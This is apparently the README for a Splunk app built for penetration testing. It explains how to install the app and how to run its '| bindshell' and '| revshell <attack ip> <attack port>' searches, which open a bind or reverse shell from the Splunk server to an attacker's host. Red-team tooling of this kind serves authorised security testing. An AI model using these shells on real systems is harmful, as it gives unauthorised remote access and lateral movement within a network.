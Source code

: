 Splunk Shells App
Version 1.0

TBG Security
Ryan Hays

This app is to help with penetration testing and Red Teaming within environments that have a Splunk deployment.

This app will allow the engineer to spawn a Reverse of Bind Shell from a Splunk server to allow the engineer to
interact with the server and expand influence within the environment.

# Install
Download the release from <INSERT RELEASE URL>

Navigate to the "Manage Apps" and click on "Install app from file"

![Alt text](appserver/static/splunk_apps.png?raw=true "Optional Title")

Click on "Choose File" and select the downloaded release archive.

![Alt text](appserver/static/splunk_install.png?raw=true "Optional Title")

Once it is installed you will have to restart Splunk

![Alt text](appserver/static/splunk_restart.png?raw=true "Optional Title")

For Splunk v6.5 ONLY
Once Splunk is restarted click on Permissions for the splunk_shells app. Ensure the last permission "Sharing for config file-only objects" has "all apps" selected.

![Alt text](appserver/static/splunk_permissions.png?raw=true "Optional Title")

# Usage
using each of these shells can be done from the Search and Reporting app. Execute the following searches:

'| bindshell <port number>' The port number can be specified or left off if left off the default is 8888

'| revshell <attack ip> <attack port>' The Attacker IP and Port need to be specified for the shell to call back.